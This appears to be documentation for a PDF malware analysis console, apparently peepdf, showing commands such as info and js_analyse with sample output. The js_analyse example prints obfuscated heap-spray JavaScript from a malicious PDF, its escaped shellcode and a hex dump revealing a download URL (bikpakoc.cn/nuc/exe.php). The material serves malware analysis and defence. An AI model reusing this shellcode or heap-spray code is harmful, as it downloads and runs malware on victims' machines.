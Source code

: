 ``` Usage: bytes offset num_bytes [file]
``` Usage: help [command]

Show the available commands or the usage of the specified command ``` Index
info

``` Usage: info [object_id|xref|trailer [version]]

Shows information of the file or object (object_id, xref, trailer) PPDF> info

File: js_stream.pdf MD5: 46f01049fb8f87c535cc96185fe9d702 Size: 458 bytes Version: 1.6 Binary: True Linearized: False Encrypted: False Updates: 0 Objects: 5 Streams: 1 Comments: 0 Errors: 0

Version 0: Catalog: 1 Info: No Objects (5): [1, 2, 3, 4, 5] Streams (1): [5] Encoded (1): [5] Suspicious elements: /OpenAction: [1] /JS: [4] /JavaScript: [4] PPDF> info 1

Offset: 17 Size: 66 Object: dictionary Type: /Catalog References: ['2 0 R', '4 0 R'] PPDF> info trailer

Offset: 406 Size: 46 Stream: No Objects: 6 Root Object: 1 Info Object: No Encrypted: No ``` Index
js_analyse

``` Usage: js_analyse variable var_name Usage: js_analyse file file_name Usage: js_analyse object object_id [version]

Analyses the Javascript code stored in the specified variable, file or object This command perform some substitutions in the code in order to obtain the last stage of the Javascript code and search for escaped bytes and shellcodes. It's not always possible to be successful with this analysis, so maybe a manual approach with other commands will be necessary. PPDF> js_analyse object 13

Javascript code:

var tX1PnUHy = new Array(); function lRUWC(E79yB, NPvAvQ){ while (E79yB.length * 2 < NPvAvQ){ E79yB += E79yB; } E79yB = E79yB.substring(0, NPvAvQ / 2); return E79yB; } function YVYohZTd(bBeUHg){ var NTLv7BP = 0x0c0c0c0c; rpifVgf = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33" + "%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64"+ "%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787"+ "%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3"+ "%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96" + "%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66"+ "%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef"+ "%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64"+ "%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf..."

Unescaped bytes: 43 43 43 43 eb 0f 5b 33 c9 66 b9 80 01 80 33 ef |CCCC..[3.f....3.| 43 e2 fa eb 05 e8 ec ff ff ff 7f 8b 4e df ef ef |C..........N...| ef 64 af e3 64 9f f3 42 64 9f e7 6e 03 ef eb ef |.d..d..Bd..n....| ef 64 03 b9 87 61 a1 e1 03 07 11 ef ef ef 66 aa |.d...a........f.| eb b9 87 77 11 65 e1 07 1f ef ef ef 66 aa e7 b9 |...w.e......f...| 87 ca 5f 10 2d 07 0d ef ef ef 66 aa e3 b9 87 00 |.._.-.....f.....| 21 0f 8f 07 3b ef ef ef 66 aa ff b9 87 2e 96 0a |!...;...f.......| 57 07 29 ef ef ef 66 aa fb af 6f d7 2c 9a 15 66 |W.)...f...o.,..f| aa f7 06 e8 ee ef ef b1 66 9a cb 64 aa eb 85 ee |........f..d....| b6 64 ba f7 b9 07 64 ef ef ef bf 87 d9 f5 c0 9f |.d....d.........| 07 78 ef ef ef 66 aa f3 64 2a 6c 2f bf 66 aa cf |.x...f..d*l/.f..| 87 10 ef ef ef bf 64 aa fb 85 ed b6 64 ba f7 07 |......d.....d...| 8e ef ef ef ec aa cf 28 ef b3 91 c1 8a 28 af eb |.......(.....(..| 97 8a ef ef 10 9a cf 64 aa e3 85 ee b6 64 ba f7 |.......d.....d..| 07 af ef ef ef 85 e8 b7 ec aa cb dc 34 bc bc 10 |............4...| 9a cf bf bc 64 aa f3 85 ea b6 64 ba f7 07 cc ef |....d.....d.....| ef ef 85 ef 10 9a cf 64 aa e7 85 ed b6 64 ba f7 |.......d.....d..| 07 ff ef ef ef 85 10 64 aa ff 85 ee b6 64 ba f7 |.......d.....d..| 07 ef ef ef ef ae b4 bd ec 0e ec 0e ec 0e ec 0e |................| 6c 03 eb b5 bc 64 35 0d 18 bd 10 0f ba 64 03 64 |l....d5......d.d| 92 e7 64 b2 e3 b9 64 9c d3 64 9b f1 97 ec 1c b9 |..d...d..d......| 64 99 cf ec 1c dc 26 a6 ae 42 ec 2c b9 dc 19 e0 |d.....&..B.,....| 51 ff d5 1d 9b e7 2e 21 e2 ec 1d af 04 1e d4 11 |Q......!........| b1 9a 0a b5 64 04 64 b5 cb ec 32 89 64 e3 a4 64 |....d.d...2.d..d| b5 f3 ec 32 64 eb 64 ec 2a b1 b2 2d e7 ef 07 1b |...2d.d.*..-....| 11 10 10 ba bd a3 a2 a0 a1 ef 68 74 74 70 3a 2f |..........http:/| 2f 62 69 6b 70 61 6b 6f 63 2e 63 6e 2f 6e 75 63 |/bikpakoc.cn/nuc| 2f 65 78 65 2e 70 68 70 |/exe.php|

URLs in shellcode: http://bikpakoc.cn/nuc/exe.php ``` Index
js_beautify
```